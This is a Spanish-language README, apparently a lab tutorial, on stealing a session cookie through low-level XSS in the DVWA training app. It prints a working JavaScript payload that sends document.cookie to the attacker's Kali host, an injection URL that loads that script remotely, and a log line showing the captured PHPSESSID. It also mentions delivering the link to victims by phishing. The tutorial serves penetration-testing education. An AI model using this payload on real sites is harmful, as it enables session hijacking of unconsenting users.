

# Explotación XSS Nivel Bajo para Robo de Cookies

Este repositorio contiene los archivos y la descripción del proceso para realizar una explotación Cross-Site Scripting (XSS) de nivel bajo con el objetivo de robar la cookie de sesión de un usuario en una aplicación web vulnerable (como DVWA configurada en nivel de seguridad bajo).

**Advertencia:** Esta información se proporciona únicamente con fines educativos y de prueba de penetración en entornos controlados. El uso de estas técnicas sin el consentimiento adecuado es ilegal y éticamente inaceptable.

## Herramientas Necesarias

* Un navegador web.
* La dirección IP de tu máquina Kali Linux (o la máquina donde se ejecutará el servidor web temporal).
* Un servidor web temporal ejecutándose en Kali Linux.

## Pasos para la Explotación

1.  **Levantar un Servidor Web Temporal en Kali Linux:**

    Abre una terminal en tu máquina Kali Linux y ejecuta el siguiente comando para iniciar un servidor web simple en el puerto 9999:

    ```bash
    python -m SimpleHTTPServer 9999
    ```

    (Para Python 3, el comando sería:)

    ```bash
    python3 -m http.server 9999
    ```

    Mantén esta terminal abierta para observar las peticiones entrantes.

2.  **Crear el Archivo `a.js` (Payload Remoto):**

    Crea un nuevo archivo de texto llamado `a.js` en el directorio donde iniciaste el servidor web temporal. Pega el siguiente código JavaScript dentro del archivo, **reemplazando `[tu_IP_de_Kali]` con la dirección IP real de tu máquina Kali Linux**:

    ```javascript
    function getimg() {
      var img = document.createElement('img');
      img.src = 'http://[tu_IP_de_Kali]:9999/' + document.cookie;
      document.body.appendChild(img);
    }

    getimg();
    ```

    Guarda los cambios en el archivo `a.js`.

3.  **Construir la URL Maliciosa:**

    Construye la URL que contiene el exploit XSS. Utiliza la siguiente estructura, **reemplazando `[tu_IP_de_Kali]` con la dirección IP de tu Kali Linux**:

    ```
    http://dvwa/dvwa/vulnerabilities/xss_d/?default=<script src="http://[tu_IP_de_Kali]:9999/a.js"></script>
    ```

    **Nota:** Asumimos que la aplicación web vulnerable es DVWA y la vulnerabilidad XSS se encuentra en la página `xss_d` con el parámetro `default`. Ajusta la URL según la aplicación y la vulnerabilidad específica.

4.  **Enviar la URL Maliciosa a la Víctima:**

    En un escenario real, esta URL se enviaría a la víctima mediante técnicas de ingeniería social (phishing, enlaces maliciosos, etc.). Para probarlo en tu entorno DVWA, simplemente pega la URL construida en la barra de direcciones de tu navegador mientras estás logueado en DVWA y presiona Enter.

5.  **Verificar los Logs del Servidor Web Temporal:**

    Regresa a la terminal donde está corriendo el servidor web temporal en Kali Linux. Deberías ver una o varias peticiones registradas. Busca una línea similar a la siguiente (la información de la cookie variará):

    ```
    127.0.0.1 - - [DD/Mon/YYYY HH:MM:SS] "GET /PHPSESSID=alguna_sesion; security=low HTTP/1.1" 404 -
    ```

    La parte importante es `PHPSESSID=alguna_sesion; security=low`. Esta es la cookie de sesión del usuario víctima que ha sido robada. El código de respuesta `404` es esperado porque estamos solicitando una "imagen" cuyo nombre es la cookie, y ese archivo no existe en nuestro servidor. Lo crucial es que la petición con la cookie llegó al servidor.



## Explicación del Proceso

1.  Cuando la víctima accede a la URL maliciosa, el navegador interpreta el código HTML.
2.  La etiqueta `<script src="...">` fuerza al navegador a solicitar el archivo `a.js` desde el servidor web temporal en Kali Linux.
3.  El servidor web temporal sirve el contenido del archivo `a.js`.
4.  El código JavaScript dentro de `a.js` se ejecuta en el navegador de la víctima.
5.  La función `getimg()` crea un nuevo elemento ``.
6.  La propiedad `src` de esta imagen se establece a una URL que apunta al servidor web temporal en Kali Linux, y la ruta de la "imagen" es el valor de la cookie del documento (`document.cookie`).
7.  El navegador de la víctima intenta cargar esta "imagen" desde el servidor.
8.  La petición HTTP enviada al servidor web temporal incluye la cookie de la víctima en la URL de la petición GET.
9.  El servidor web temporal registra esta petición en sus logs, revelando la cookie robada al atacante.

## Contribución

Las contribuciones a este repositorio con fines educativos y de mejora de la documentación son bienvenidas. Por favor, asegúrate de que cualquier contribución se realice de manera ética y responsable.

## Licencia

Este proyecto se distribuye bajo la Licencia MIT. Consulta el archivo `LICENSE` para obtener más detalles.